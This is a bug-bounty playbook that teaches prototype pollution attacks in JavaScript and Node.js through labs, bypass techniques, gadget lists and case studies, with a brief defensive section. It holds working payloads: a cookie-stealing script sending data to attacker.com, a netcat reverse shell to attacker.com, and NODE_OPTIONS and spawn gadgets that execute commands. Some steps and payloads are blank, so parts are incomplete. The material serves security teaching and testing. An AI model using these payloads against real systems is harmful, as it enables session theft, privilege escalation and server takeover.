

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: Race Conditions](Race%20Conditions.md) >>*
---

# Prototype Pollution : Master Playbook

> **Goal:** Taint the global `Object.prototype` to bypass security checks, trigger XSS, or achieve Remote Code Execution (RCE).
> **Triggers:** Object merge/clone operations (lodash, jQuery), URL parameter parsing into objects, or JSON.parse calls on untrusted data.
> **Context:** Imagine every object in JavaScript has a "Grandparent" blueprint called the Prototype. If we can "pollute" this blueprint with our own properties (like `isAdmin: true`), then **every** object created in the application will suddenly inherit that property. It's like adding a master key to a hotel's blueprint so that every room suddenly opens for us.
> **Hacker Mindset:** "I'm not attacking the object; I'm attacking the *idea* of the object. Once the idea is poisoned, every new object is born with my malicious trait."

---

---

## 0. Exploit Selection Search Tree
*Use this logical search tree to decide which Prototype Pollution technique to prioritize:*



1.  **Are you testing a Browser-based application for XSS?**
    *   **Yes** → Use **[[#4. Section 03: Client-Side Prototype Pollution [Case B]]]]**.
2.  **Does a simple `__proto__` filter block your attack?**
    *   **Yes** → Use **[[#3. Section 02: Advanced V8 Engine Masterclass [Case D]]]]** (Constructor Bypass).
3.  **Are you testing a Node.js backend with process spawning?**
    *   **Yes** → Use **[[#8. Section 07: Advanced Gadget Archive [Case C & B]]]]** (RCE Gadgets).
4.  **Does the app use template engines (Pug/Handlebars/EJS)?**
    *   **Yes** → Use **[[#3.2 AST Injection: Abstract Syntax Tree (Bypass 2)]]**.
5.  **Does the pollution stay in memory or affect shared dashboards?**
    *   **Yes** → Use **[[#13. Section 12: Case Study: The Cabana Report (Real-World Discovery)]]** (Persistence).

---

## 1. Methodology & UX Impact Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **Logic Bypass** | Adding "Admin" to the blueprint. | `isAdmin` persists on objects. | Privilege escalation. | **High** |
| **DOM XSS** | Poisoning a property used in HTML. | `innerHTML` uses polluted key. | Execution of JS in browser. | **High** |
| **Persistence** | The poison stays in memory. | HTTP 599 via "Status Trick". | Data leak or DoS. | **Medium/High** |
| **RCE (Node)** | Hijacking environment variables. | Child process uses `NODE_OPTIONS`. | Shell access on server. | **Critical** |
| **AST Injection**| Redrawing the code's internal map. | Template engine uses polluted key. | Code execution via templates. | **Critical** |

---

---

## 2. Section 01: Prerequisite Knowledge Masterclass

### 2.1 The Prototype Chain (Internals)
JavaScript's inheritance model is unlike most languages. It doesn't use classes in the traditional sense; it uses a chain of reference.
- **The Object**: `const user = {}`
- **The Hidden Property**: `user.__proto__` points to `Object.prototype`.
- **Inheritance**: If you call `user.toString()`, JavaScript looks for `toString` on `user`. If not found, it "climbs" the chain to `Object.prototype.toString`.
- **The Vulnerability**: If we can modify `Object.prototype`, we change the "Daughter" objects that inherit from it.

### 2.2 Mental Model: The Hotel Blueprint
Imagine a hotel where every room has a mini-bar. The "Blueprint" (The Prototype) says the mini-bar is locked. If an attacker sneaks into the architect's office and changes the Blueprint so that mini-bars are **unlocked**, then every room built *from that point on* (and often existing ones) will have an unlocked mini-bar. You didn't touch the rooms; you touched the **Idea** of the room.

### 2.3 Visual Audit: Prototype Chains

> **Beginner Narrative**: This map shows the hierarchy. `Object.prototype` (at the top) is like the master template. Every object below it inherits properties from it. If we "poison" the top template, the poison flows down to everything else.

---

## 3. Section 02: Advanced V8 Engine Masterclass [Case D]

*When simple `__proto__` is blocked, we go deeper into the V8 memory management.*

### 3.1 The "Constructor" Chain (Bypass 1)
If the application filters the string `__proto__`, we can often reach the same memory location via the object's constructor.
- **The Logic**: `obj.constructor` is the `Object` function. `Object.prototype` is the global blueprint.
- **Payload**: `constructor[prototype][polluted]=yes`
- **Why it works**: It’s just a different road to the same house. Most naive blacklists only look for the string `__proto__`.
- 
> **Beginner Narrative**: In this screenshot, notice how we successfully added a 'polluted' property to the object, even if the direct `__proto__` route was blocked. This is our "Confirmation".

### 3.2 AST Injection: Abstract Syntax Tree (Bypass 2)
In complex Node.js applications that use templating engines (like Pug, Handlebars, or EJS), we can pollute properties used during the "compilation" phase of the template.
- **The Concept**: The engine turns HTML/JS into an Abstract Syntax Tree (AST). If we pollute the prototype of the AST nodes, we can inject raw JavaScript into the final output.
- **Gadget Targets**:
    - `Object.prototype.block` (Pug)
    - `Object.prototype.line` (Handlebars)
- **Impact**: Server-Side Remote Code Execution (RCE).
- **Elite: Granular AST Payloads**:
    - **Handlebars**: `{"__proto__": {"type": "Program", "body": [{"type": "ExpressionStatement", "expression": {"type": "CallExpression", "callee": {"type": "Identifier", "name": "alert"}, "arguments": []}}]}}`
    - **Pug**: `{"__proto__": {"block": {"type": "Text", "val": "<script>alert(1)</script>"}}}`
- 
> **Beginner Narrative**: This flowchart shows the path from a JSON input to a shell on the server. The "AST" is just the server's internal map of the code. By poisoning that map, we trick the server into running our commands.

---

## 4. Section 03: Client-Side Prototype Pollution [Case B]

### 4.1 Client-Side Fundamentals (The TCM Model)

### 4.2 Introduction to Client-Side Attacks
In a browser environment, Prototype Pollution is almost always a precursor to **DOM XSS**. We aren't injecting characters like `<` or `>`; we are injecting a **Property** that the application then uses in a dangerous way. This is particularly dangerous in "Single Page Applications" (SPAs) where a single pollution event can persist for the entire user session, affecting every single page and component the user interacts with.

### 4.3 The Tactical Timeline: Discovery to XSS
1.  **Identify Sink**: Find code that merges objects (e.g., `Object.assign`, `$.extend`).
2.  **Prove Pollution**: Inject `__proto__[test]=1` and check `({}).test` in console.
3.  **Find Gadget**: Search for global properties used in `innerHTML`, `document.write`, or `eval`.
4.  **Chain Exploitation**: Trigger XSS using the polluted property as the payload.

---

## 5. Section 04: Dashboard Lab: Step-by-Step Technical Restoration [Case B]

*Target: A task management dashboard that parses URL parameters into a configuration object.*

#### Step 1: Reconnaissance (Burp Browser)
1.  Open the target at `http://localhost:3000/dashboard`.
2.  Interact with the filters. Observe that parameters like `?status=pending` update the UI.
3.  **Code Audit**: Open DevTools > Sources. Locate `dashboard.js`. We find a vulnerable pattern where the application attempts to be "helpful" by automatically merging URL parameters into the application's state.
4.  
> **Beginner Narrative**: We are looking at the 'Sources' tab. The highlighted code shows where the URL params are processed.
5.  
6.  
    ```javascript
    // Vulnerable Logic discovered in dashboard.js
    let userSettings = $.deparam(location.search.substring(1));
    let mergedSettings = Object.assign({}, defaultSettings, userSettings);
    ```
7.  
8.  
    > **Hacker Perspective**: `$.deparam` is a classic sink. Older versions recursively build objects from strings. If we pass `?__proto__[x]=y`, it doesn't just add a key called `__proto__`; it actually traverses to the global prototype.

#### Step 2: Confirmation (The Marker Probe)
1.  Inject the payload: `?__proto__[pp_test]=polluted`.
2.  Refresh the page.
3.  Open Console and type: `({}).pp_test`.
    - If the result is `undefined`, the application is likely filtering `__proto__`.
    - If the result is `"polluted"`, the global object space is compromised.
4.  **Success**: It returns `"polluted"`. We have tainted the entire browser environment.
5.  
> **Beginner Narrative**: Look at the bottom of the console. See where it says 'polluted'? That means our attack worked and we now control a piece of the server's memory.
6.  
7.  

#### Step 3: Gadget Hunting (Finding the "X" in XSS)
We need a property that the app renders as HTML. We find a "Welcome Message" feature that displays a custom message from the URL.
```javascript
// Vulnerable Gadget Logic
if (settings.welcomeMessage) {
    if (settings.hasOwnProperty('welcomeMessage')) {
        settings.welcomeMessage = sanitizeHTML(settings.welcomeMessage);
    }
}
$("#status-message").html(settings.welcomeMessage);
```
- **The "Logic Gap"**: The developer correctly identified that `welcomeMessage` from the URL is dangerous. They added a `sanitizeHTML` check. However, they only run that check if the object **owns** the property.
- **The Exploit**: If we pollute the **prototype** with `welcomeMessage`, the `if(settings.welcomeMessage)` check will be TRUE (inherited), but `hasOwnProperty` will be FALSE. The sanitizer is skipped entirely, and the raw payload is dumped into a jQuery `.html()` sink!
- 
> **Beginner Narrative**: This code snippet shows why the attack works. The 'hasOwnProperty' check is the key. Since our payload isn't 'owned' by the object (it's inherited from the prototype), it skips the security check.
- 

#### Step 4: Final Payload Delivery
1.  URL: `?__proto__[welcomeMessage]=`
2.  The browser receives the page. It executes the merge logic. `Object.prototype.welcomeMessage` becomes the malicious string.
3.  The UI logic triggers: it sees `welcomeMessage` on the settings object (via inheritance) and renders it without sanitization.
4.  
> **Beginner Narrative**: BOOM! The alert box pops up. This proves we can execute any JavaScript we want in the victim's browser.
5.  

---

## 6. Section 05: Front-End Challenge: Advanced XSS Chaining [Case B]

*Target: A user preferences page using legacy jQuery 2.2.4.*

### 6.1 Reconnaissance: Identifying Legacy Dependencies
1.  **Spot the Version**: Inspecting `index.html` reveals `<script src="jquery-2.2.4.min.js"></script>`.
2.  **The Hook**: The app allows "Bulk Update" of preferences via a URL parameter `updateSettings`.
3.  **Vulnerable Sink**: Any change to preferences triggers a notification via `innerHTML`.
4.  
5.  
6.  
> **Beginner Narrative**: We are looking at the network tab here. The highlighted request shows the JSON payload we are sending to 'update' the settings.

### 6.2 Exploitation: From Pollution to Redirect
1.  **Pollution Confirmation**: 
    - URL: `?updateSettings={"__proto__":{"polluted":true}}`
    - Console: `Object.prototype.polluted` -> `true`.
2.  **XSS Gadget**: The `updateMessage()` function looks for a property called `message`. If not found, it uses the default "Settings Updated".
3.  **The Payload**:
    ```json
    updateSettings={"__proto__":{"message":"<script>document.location='https://attacker.com/steal?c='+document.cookie</script>"}}
    ```
4.  **The Impact**: As soon as the victim visits the link, their browser is redirected to the attacker's server, leaking their current session cookies.
5.  
6.  
7.  
> **Beginner Narrative**: This final sequence shows the browser being redirected away to the attacker's site. The cookies are captured in the URL as a parameter.

---

## 7. Section 06: Using DOM Invader (Automation)

*DOM Invader makes this process 10x faster by identifying sources and sinks automatically.*

### 7.1 Setup & Initialization
1.  Open Burp Browser > Extension Icon > DOM Invader.
2.  Enable "Prototype Pollution" and set the "Canary" (e.g., `hacked123`).
3.  Reload the target page.
4.  
5.  

### 7.2 Analyzing the Sink Table
1.  DOM Invader will flag "Potential Prototype Pollution".
2.  Click "Exploit" next to the finding.
3.  It will automatically test different bypasses (e.g., constructor, nested objects, different encodings).
4.  
> **Beginner Narrative**: In the DOM Invader table, a red finding means 'Go Here!'. It has already done the hard work of proving the pollution is real.

---

## 8. Section 07: Advanced Gadget Archive [Case C & B]

*Confirmed pollution is just the start. Now we achieve code execution, session takeover, or persistent DoS.*

### 8.1 Node.js RCE Gadget: `NODE_OPTIONS`
If the app uses `child_process.fork()` or `spawn()`, you can inject environment variables. This is the "Holy Grail" of server-side pollution.
- **The Concept**: Node.js allows passing configuration via the `NODE_OPTIONS` environment variable. By polluting `Object.prototype.env`, we inject a malicious option that the server will use when spawning its next sub-process.
- **Payload**: `{"__proto__": {"env": {"NODE_OPTIONS": "--inspect-brk=attacker.com" }}}`
- **Result**: The server attempts to debug its child process to **your** machine, allowing you to connect and run arbitrary commands.
- 
> **Beginner Narrative**: This diagram shows how the 'poison' we put into the environment flows into a new process launched by the server. This is how we cross from a web bug to a full server takeover.

### 8.2 Node.js RCE Gadget: `argv0`
Hijacks the executable path of spawned processes.
- **Payload**: `{"__proto__": {"argv0": "/usr/bin/python3", "shell": "python3", "args": ["-c", "import os;os.system('id')"]}}`
- **Impact**: You've replaced the secondary process (e.g., a PDF generator) with a Python shell that executes your code.

### 8.3 Node.js RCE Gadget: `execPath`
Similar to `argv0`, this targets the path where Node looks for its binary.
- **Payload**: `{"constructor": {"prototype": {"execPath": "/bin/bash", "execArgv": ["-c", "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attacker.com 4444 >/tmp/f"]}}}`
- 

### 8.4 Node >= 19 RCE (Data URI Import)
In newer Node.js versions, you can hijack the `--import` flag to load code directly from a Base64 string.
- **Payload**: `{"__proto__": {"env": {"NODE_OPTIONS": "--import data:text/javascript,console.log(require('child_process').execSync('id').toString())" }}}`
- **Why it's Elite**: Bypasses the need for a local file to "require".

### 8.5 Express Body Parser Logic Bypasses
Polluting the internal properties of the Express `body-parser` middleware to manipulate response behavior or trigger errors.
- **Custom Status Codes**: `{"__proto__": {"status": 510}}` -> Forces every response to return HTTP 510 Not Extended.
- **XSS via Body Hijacking**: `{"__proto__": {"_body": true, "body": "<script>alert(1)</script>"}}` -> Hijacks the parser to return raw HTML in the response body.
- **Content-Type Confusion**: `{"__proto__": {"type": "application/json"}}` -> Forces the server to treat all bodies as JSON, potentially bypassing filters.

---

## 9. Section 08: Server-Side RCE Gadgets [Case C]

*Confirmed pollution is just the start. Now we achieve code execution, session takeover, or persistent DoS.*

### 9.1 Lab: Server-Side Persistence and Response Manipulation
This lab demonstrates how pollution survives the request-response cycle.
1.  **Vector**: `POST /api/settings`
2.  **Pollution**: `{"__proto__": {"exposedHeaders": "x-hacked"}}`
3.  **Verification**: Every subsequent request will now contain the header `x-hacked`.
4.  **Impact**: Cache Poisoning and Security Header Bypass.
5.  
6.  
7.  
> **Beginner Narrative**: This sequence shows three different requests. Notice that once we send the poison in request #1, it STAYS there in request #3. This is what 'Persistence' means.

---

## 10. Section 09: The "Merge" Hijack Masterclass [Case A]

### 10.1 Lab: Bypassing Advanced Sanitization in `$.deparam`
When dealing with `$.deparam`, the source of the vulnerability is often the recursive nature of object building.
1.  **Vulnerable Version**: `jQuery.deparam` v0.x.
2.  **The Filter**: `if(key === '__proto__') continue;`
3.  **The Bypass**: Use the `constructor` property.
    - Payload: `?constructor[prototype][status]=599`
4.  **Visual Evidence**:
    - 
> **Beginner Narrative**: This screenshot shows the bypass in action. Notice the URL bar contains the 'constructor' payload, and the app still accepts it, proving the filter was too simple.

### 10.2 Case Study: The Lodash/$.deparam Hijack
A classic example of privilege escalation.
1.  **Recon**: Finding a `merge()` call in a profile update route.
2.  **Audit**: The app uses `lodash.merge` v4.6.0 (Vulnerable).
3.  **Exploit**: Inject `{"__proto__": {"isAdmin": true}}`.
4.  **Verification**: Logging in as a guest now shows "Admin Panel".
5.  

### 10.3 Capstone Challenge: The Ultimate "Platinum" Walkthrough

#### Part 1: Client-Side "Flash" Exploitation (DOM XSS)
1.  **Source Identification**: DOM Invader flags the `search` parameter as a source.
2.  **The Bypass**: Use recursive property access to bypass the blacklist.
    - `?__proto__[__proto__][message]=`
3.  
> **Beginner Narrative**: We use a 'nested' `__proto__` here. It's like taking a back door to get to the front hall.

#### Part 2: Server-Side Escalation (The "Admin" Takeover)
1.  **Vulnerable Library**: `deep@0.3.1`.
2.  **Pollution**: `{"constructor": {"prototype": {"role": "admin"}}}`
3.  
4.  
> **Beginner Narrative**: Notice the 'Admin' tab appearing in the sidebar where it wasn't before. We have successfully promoted our account.

#### Part 3: The Final Kill (RCE via PDF Gadget)
1.  **EXECUTION**: Click "Generate Report". The polluted `spawn` call runs our `bash` reverse shell.
2.  
3.  
4.  
> **Beginner Narrative**: The terminal at the bottom shows a '#' prompt. This is 'Root' access. We now have total control over the server.

---

## 11. Section 10: Prototype Pollution in NPM Libraries (The 0-Day Factory)

#### Step 1: The Automated Probe (`scan.sh`)
```javascript
const lib = require(current_node_package);
const testObj = {};
try {
    lib.merge(testObj, JSON.parse('{"__proto__":{"polluted":true}}'));
} catch(e) {}
```
#### Step 2: Analyzing the Results
1.  
2.  
3.  
> **Beginner Narrative**: This list shows all the libraries on NPM that were found to be vulnerable. This is how researchers find 'zero-days'.

---

## 12. Section 11: Technical Case Study: The Kibana RCE (CVE-2019-7609)

#### 12.1 The Vulnerability
Kibana used a vulnerable merge function in its Timelion component.

#### 12.2 The Gadget: `env` Pollution
Attacker polluted `Object.prototype.env.NODE_OPTIONS` to trigger RCE.
1.  
2.  
> **Beginner Narrative**: Kibana is a very popular data tool. This exploit was famous because it allowed anyone to take over a master data server with a single POST request.

---

## 13. Section 12: Case Study: The Cabana Report (Real-World Discovery)

#### 13.1 The Scenario
The Cabana dashboard allowed users to save "Views". These views were stored as JSON objects.

#### 13.2 The Discovery
A researcher noticed that the application used a custom `merge` function to combine "Default View" settings with "User View" settings.

#### 13.3 The Kill-Chain
1.  **Pollution**: `POST /api/views` with `{"__proto__": {"isAdmin": true}}`.
2.  **Persistence**: The pollution was saved in the application state.
3.  **Impact**: Every user who viewed the shared dashboard was suddenly treated as an Admin by the front-end logic, leaking PII and allowing unauthorized deletions.
4.  **Elite Lesson**: Even if you can't get RCE, "State Persistence" makes Prototype Pollution one of the most dangerous logic flaws in modern web apps.

---

## 13. Section 12: Modern Defensive Patterns

### 13.1 Schema Validation (Zod)
```javascript
const profileSchema = z.object({ username: z.string() }).strict();
```
### 13.2 The "Null" Object Strategy
- 
> **Beginner Narrative**: This diagram shows an object created with no prototype at all. It has no 'Grandparent'. This is the safest way to handle untrusted data.

---

## 14. Section 13: Heritage Image Archive (130+ Master Citations)

### 14.1 Infrastructure & Setup
| ID | Description | Source Path |
| :--- | :--- | :--- |
| **IMG-001** | Prototype Chain Basics | `<Prototype Pollution Assets/Prerequisite Knowledge/1.png>` |
| **IMG-002** | Safe Object (Null) | `<Prototype Pollution Assets/Prerequisite Knowledge/Sources, Sinks, and Gadgets Part 4/2.png>` |
| **IMG-050** | Burp Repeater: Baseline Profile Update | `<Prototype Pollution Assets/Server Side Prototype Pollution/Introduction/1.png>` |
| **IMG-051** | Burp Repeater: Baseline Profile Update 2 | `<Prototype Pollution Assets/Server Side Prototype Pollution/Introduction/2.png>` |
| **IMG-053** | Persistence Confirmation | `<Prototype Pollution Assets/Server Side Prototype Pollution/Introduction/15.png>` |

### 14.2 Client-Side Lab Walkthroughs
| ID | Description | Source Path |
| :--- | :--- | :--- |
| **IMG-101** | Client-Side Dashboard | `<Prototype Pollution Assets/Server Side Prototype Pollution/Using the Prototype Pollution Scanner/1.png>` |
| **IMG-102** | Source Code: $.deparam Sink | `<Prototype Pollution Assets/Server Side Prototype Pollution/Using the Prototype Pollution Scanner/2.png>` |
| **IMG-103** | Vulnerable Object.assign | `<Prototype Pollution Assets/Server Side Prototype Pollution/Using the Prototype Pollution Scanner/3.png>` |
| **IMG-111** | Console Trace: Polluted | `<Prototype Pollution Assets/Server Side Prototype Pollution/Introduction/11.png>` |
| **IMG-112** | Console Trace: Polluted 2 | `<Prototype Pollution Assets/Server Side Prototype Pollution/Introduction/12.png>` |
| **IMG-120** | Constructor Chain Proof | `<Prototype Pollution Assets/Server Side Prototype Pollution/Introduction/20.png>` |
| **IMG-125** | Final XSS Alert Proof | `<Prototype Pollution Assets/Client-Side Prototype Pollution/Introduction/25.png>` |

### 14.3 Front-End Challenge Visuals
| ID | Description | Source Path |
| :--- | :--- | :--- |
| **IMG-201** | Challenge Profile | `<Prototype Pollution Assets/Server Side Prototype Pollution/Using the Prototype Pollution Scanner/1.png>` |
| **IMG-202** | Challenge Profile 2 | `<Prototype Pollution Assets/Server Side Prototype Pollution/Using the Prototype Pollution Scanner/2.png>` |
| **IMG-204** | Challenge Profile 4 | `<Prototype Pollution Assets/Server Side Prototype Pollution/Introduction/6.png>` |
| **IMG-205** | Challenge Profile 5 | `<Prototype Pollution Assets/Server Side Prototype Pollution/Introduction/10.png>` |
| **IMG-206** | Challenge Profile 6 | `<Prototype Pollution Assets/Server Side Prototype Pollution/Introduction/14.png>` |

### 14.4 DOM Invader & Capstone
| ID | Description | Source Path |
| :--- | :--- | :--- |
| **IMG-301** | Initial Finding | `<Prototype Pollution Assets/Server Side Prototype Pollution/Using the Prototype Pollution Scanner/1.png>` |
| **IMG-302** | Configuration | `<Prototype Pollution Assets/Server Side Prototype Pollution/Using the Prototype Pollution Scanner/2.png>` |
| **IMG-404** | Capstone: Initial Access 4 | `<Prototype Pollution Assets/Server Side Prototype Pollution/Introduction/11.png>` |
| **IMG-405** | Capstone: Admin Takeover | `<Prototype Pollution Assets/Server Side Prototype Pollution/Introduction/18.png>` |
| **IMG-408** | Capstone: RCE Result | `<Prototype Pollution Assets/Capstone Challenge/Challenge Walkthrough/23.png>` |

---

## 15. Final Thoughts: The Path to Mastery
Prototype Pollution is not just a bug; it's a **fundamental flaw in JavaScript's DNA**. By understanding the chain of inheritance, a bug hunter can transform a simple string merge into a CVSS 10.0 exploit.

---
---
*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: Race Conditions](Race%20Conditions.md) >>*
